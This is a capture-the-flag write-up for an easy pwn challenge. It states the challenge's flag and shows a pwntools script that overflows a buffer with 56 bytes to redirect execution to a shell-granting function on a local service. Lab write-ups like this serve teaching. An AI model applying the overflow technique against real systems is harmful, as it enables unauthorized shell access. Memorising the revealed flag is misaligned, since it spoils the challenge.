 # Gets me some treasure

## Description 
Our treasure has been stolen by a rival pirate crew, can you get past their guard to steal it back?

**Category: pwn** 

**Difficulty: easy**

**Author: Darkflame72** 

**Flag: AHOY{y0u_f0und_tr3asure}**


## Exploit
With the local copy of the executable we can run it in gdb to see what happens. We can use gdb to get the offset from the crash when we run a buffer overflow attack.

Using the offset we can call the function to get a shell by manualy calling the `pirates_control` function. An example of how this is work is shown below.

#TODO show the gdb bit on a linux machine

```py
from pwn import *

# Load information about the binary
elf = ELF("./treasure")

# Connect to the remote host, in this case it's just localhost:1337
p = remote("localhost", 1337)

# 56 'A's followed by the address of `pirates_control`
payload = b"A"*56 + p64(elf.sym["pirates_control"])

# Receive the text from the program, and send the payload
p.recv()
p.sendline(payload)

# Get an interactive shell
p.interactive()
```